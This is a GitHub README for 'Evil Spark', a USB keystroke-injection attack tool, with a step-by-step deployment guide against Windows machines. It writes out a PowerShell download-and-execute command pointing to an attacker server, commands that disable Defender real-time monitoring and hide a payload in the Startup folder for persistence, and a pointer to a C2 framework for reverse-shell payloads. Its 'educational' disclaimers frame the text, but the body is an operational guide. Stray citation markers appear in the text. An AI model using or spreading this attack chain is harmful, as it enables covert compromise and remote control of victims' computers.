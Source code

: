 #Evil Spark 
![Evil Spark](https://github.com/MustafaCyb/Evil-Spark/blob/main/EvilSpark.png)
---

**⚠️ DANGER: EXTREME WARNING ⚠️**
This project is developed for **educational and research purposes ONLY**. Unauthorized use of this tool on any system or network without explicit, prior, mutual, and written consent is **ILLEGAL** and **STRICTLY PROHIBITED**. The creators and contributors of Evil Spark assume **NO LIABILITY** and are **NOT RESPONSIBLE** for any misuse, damage, or legal consequences arising from the use or handling of this software. **USE AT YOUR OWN EXTREMIA PERIL AND RESPONSIBILITY.**

---

## 🚀 Project Overview
Evil Spark demonstrates a proof-of-concept (PoC) attack chain utilizing a Digispark-compatible USB device. This device emulates keyboard actions to automate tasks on a target Windows machine, leading to the download and execution of a custom payload with persistence. This project integrates:
* A Linux-based server setup script (`setup.sh`).
* A Digispark sketch (`Evil_Spark.ino`) written in C++. 
* A PowerShell script (`Starter.ps1`) for payload deployment and execution. 

This project is designed to help understand HID attacks, payload delivery mechanisms, and basic persistence techniques from a defensive perspective.

## 🔥 Key Features
* ✔️ Automated Keystroke Injection via Digispark (HID Attack).
* ✔️ Apache Server Setup Script (`setup.sh`) for hosting payloads.
* ✔️ PowerShell-based payload stager (`Starter.ps1`) for:
    * Attempting to disable Windows Defender. 
    * Downloading the main payload. 
    * Executing the payload. 
    * Achieving persistence via the Startup folder. 

## 🔗 Workflow At a Glance
![Workflow At a Glance](https://github.com/MustafaCyb/Evil-Spark/blob/main/Diagram.png)
1.  **💻 Attacker Setup:**
    * The `setup.sh` script configures an Apache server on Linux to host `Starter.ps1` and the `payload.exe`.
    * The `Evil_Spark.ino` (C++ sketch) ; is customized with the server's IP and uploaded to the Digispark device using the Arduino IDE.
2.  **🔌 Deployment:**
    * The programmed Evil Spark USB is plugged into the target Windows computer.
3.  **🤖 Automated Execution (Digispark):**
    * The Digispark emulates keyboard inputs. 
    * It attempts to disable Windows Defender through UI manipulation. 
    * It opens PowerShell (with attempted admin rights)  and commands it to download and execute `Starter.ps1` from the attacker's server. 
4.  **🎯 Payload Delivery & Persistence (`Starter.ps1`):**
    * `Starter.ps1` runs on the target machine. 
    * Downloads the main `payload.exe` (e.g., `ring.exe` as in the example script).
    * Saves the payload to the Windows Startup folder for persistence. 
    * Hides the payload file. 
    * Executes the payload. 

## ⚙️ Project Components

### 1. `setup.sh` (Bash Script)
* Automates Apache2 web server setup on Debian-based Linux.
* Updates packages, installs Apache2, and starts the service.
* Creates `/var/www/html/tools` for hosting files. [cite: 3]
* Moves `payload.exe` (or your chosen name) and `Starter.ps1` to the tools directory. [cite: 3]

### 2. `Evil_Spark.ino` (Digispark C++ Sketch)
* Arduino C++ code for ATtiny85 based Digispark-compatible devices. 
* Simulates keyboard inputs to perform the automated attack steps. 
* **Requires Arduino IDE for compilation and upload.** (Download from: [https://www.arduino.cc/en/software/](https://www.arduino.cc/en/software/))

### 3. `Starter.ps1` (PowerShell Script)
* PowerShell script executed on the target. 
* Attempts `Set-MpPreference -DisableRealtimeMonitoring $true`. 
* Downloads the main payload (e.g., `ring.exe`) to the Startup folder. 
* Hides the payload using `attrib +h +s`. 
* Executes the payload. 

### 4. `payload.exe` (Example: `ring.exe`)
* **THIS IS THE CORE PAYLOAD YOU MUST CREATE OR PROVIDE.**
* This project *does not* include a pre-made `payload.exe`.
* Functionality is user-defined (e.g., reverse shell, information gathering, etc.).
* **Payload Inspiration & Reference:** For creating a custom payload, particularly one in Go (which compiles to an `.exe`), you can study projects like **RingShell**. RingShell is a Go-based C2 framework and can serve as an excellent reference for understanding how such payloads are structured and deployed.
    * RingShell GitHub Repository: [https://github.com/MustafaAbdulazizHamza/RingShell/tree/main](https://github.com/MustafaAbdulazizHamza/RingShell/tree/main)

## 🛠️ Prerequisites & Tools
* 🐧 A Linux machine (Debian-based recommended for `setup.sh`) for the server.
* 🔌 Digispark ATtiny85 compatible USB board.
* 💻 **Arduino IDE:** Used to compile the C++ sketch (`.ino`) and upload it to the Digispark. 
    * Download: [https://www.arduino.cc/en/software/](https://www.arduino.cc/en/software/)
* 🎯 A Windows target machine for testing (**WITH EXPLICIT, PRIOR, WRITTEN CONSENT ONLY**).
* 👾 Your custom `payload.exe` (e.g., `ring.exe`).

## 🚀 Setup & Deployment Guide

### 1.  SERVER: Apache Setup (`setup.sh`)
1.  Place `setup.sh`, your `payload.exe` (e.g., `ring.exe`), and `Starter.ps1` in the same directory on your Linux server.
2.  Edit `setup.sh`:
    * Set `PAYLOAD="your_payload_name.exe"` (e.g., `PAYLOAD="ring.exe"`). [cite: 3]
    * Ensure `SHELL_SCRIPT="Starter.ps1"`. [cite: 3]
3.  Make `setup.sh` executable: `chmod +x setup.sh`.
4.  Run with sudo: `sudo ./setup.sh`.
5.  Note your server's IP address (the script attempts to display it).

### 2. TARGET SCRIPT: `Starter.ps1` Configuration
1.  Edit `Starter.ps1`.
2.  Update the URI in `Invoke-WebRequest` to point to your payload on your server:
    * Example: `Invoke-WebRequest -Uri "http://<YOUR_SERVER_IP>/tools/ring.exe" -OutFile $target` 
    * Replace `<YOUR_SERVER_IP>` and ensure `ring.exe` matches your payload filename.

### 3. DIGISPARK: `Evil_Spark.ino` Programming
1.  Open `Evil_Spark.ino` (your C++ sketch for the Digispark) in the **Arduino IDE**. 
2.  Modify the line that fetches `Starter.ps1` to include your server's IP:
    * Example: `DigiKeyboard.print("iex (iwr 'http://<YOUR_SERVER_IP>/tools/Starter.ps1')");` 
3.  In Arduino IDE:
    * Ensure Digispark board drivers/support are installed.
    * Select the correct Digispark board from the Tools menu.
    * Compile and Upload the sketch to your Digispark.

### 4. 💣 DEPLOYMENT
1.  Ensure your Apache server is running and accessible.
2.  Plug the programmed Evil Spark USB into the **consenting** target Windows machine.
3.  The Digispark will emulate keystrokes and initiate the programmed sequence. 

## ❗ Important Considerations & Limitations
* **UAC (User Account Control):** The `.ino` sketch attempts to handle UAC.  Its success varies based on target system settings.
* **Antivirus (AV) & EDR:** Basic attempts to disable Windows Defender [cite: 4, 5] are included. Modern AV/EDR solutions will likely detect and block these activities. This PoC is not designed for stealth.
* **Keyboard Layouts:** Keystroke emulation typically assumes a US QWERTY layout. Results may vary on different layouts.
* **Timings & Delays:** `DigiKeyboard.delay()` values in the `.ino` sketch are critical.  Adjust them based on target system responsiveness.
* **Network Connectivity:** The target PC needs HTTP (port 80) access to your server.
* **Payload Naming:** Ensure consistency in payload filenames across `setup.sh`, `Starter.ps1`, and your actual payload file.

## 📜 Ethical Conduct & Legal Disclaimer
Reiterating the initial warning: This project is **STRICTLY FOR EDUCATIONAL PURPOSES**. Understanding offensive security techniques is vital for building robust defenses. **DO NOT USE THIS TOOL OR ANY DERIVATIVE ON SYSTEMS OR NETWORKS WITHOUT EXPLICIT, WRITTEN PERMISSION.** Unauthorized system access is a serious crime.

## 📄 License
This project is shared for educational exploration. While no specific open-source license is formally attached, users are expected to adhere to the ethical guidelines and disclaimers stated herein. If you adapt or distribute this work, please maintain its educational context and include all original warnings and disclaimers.

---
*Happy (Ethical) Hacking!* 👨‍💻🔬
